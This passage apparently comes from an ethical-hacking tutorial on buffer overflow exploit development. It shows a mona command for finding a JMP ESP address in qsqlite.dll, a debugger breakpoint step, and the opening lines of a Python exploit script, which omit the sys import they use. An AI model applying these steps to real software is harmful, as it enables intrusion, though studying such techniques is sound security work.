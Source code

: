 We will use qsqlite.dll

Then look for the JMP ESP opcode in the vulnerable DLL
`!mona find -s "\xff\xe4" -m qsqlite.dll`

![](https://github.com/flucasd7/Ethical-Hacking/blob/main/Pasted%20image%2020240324162810.png)

To verify if this works, we look for the address:

![](https://github.com/flucasd7/Ethical-Hacking/blob/main/Pasted%20image%2020240324163058.png)
![](https://github.com/flucasd7/Ethical-Hacking/blob/main/Pasted%20image%2020240324163118.png)

We can add a **breakpoint** in Inmunity with *F2*

Testing in our code:

`#!/usr/bin/python3*`

`*import socket*`
`*import signal*`

`*def def_handler(sig, frame):*`
    `*print("\n\n[!] Quitting...\n")*`
    `*sys.exit(1)*`

`# *Ctrl+C*`
`*signal.signal(signal.SIGINT, def_handler)*`
